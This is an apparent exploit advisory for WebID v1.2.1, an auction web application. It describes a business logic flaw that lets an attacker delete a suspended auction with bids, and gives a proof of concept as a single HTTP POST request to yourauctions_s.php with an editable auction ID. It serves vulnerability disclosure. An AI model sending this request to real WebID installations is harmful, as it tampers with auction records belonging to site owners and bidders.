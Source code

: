 # Exploit Title: Webid v1.2.1 - Business Logic Error(BLE)
## Date: 2/1/2024
## Vendor Homepage: https://sourceforge.net/projects/simpleauction/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Webid
## Version: v1.2.1
## Exploit Description:
## Webid v1.2.1 suffers from BLE - Business Logic Error Vulnerability allowing attackers to delete a suspended auction that has bids that can not be deleted in UI.

## ---------------------------------POC-----------------------------
```
POST /yourauctions_s.php HTTP/1.1
...

csrftoken=e7ea4206644f3113937111c886b52ead&O_delete%5B%5D=5(CHANGE HERE)&action=delopenauctions&Submit=Process+selected+auctions
```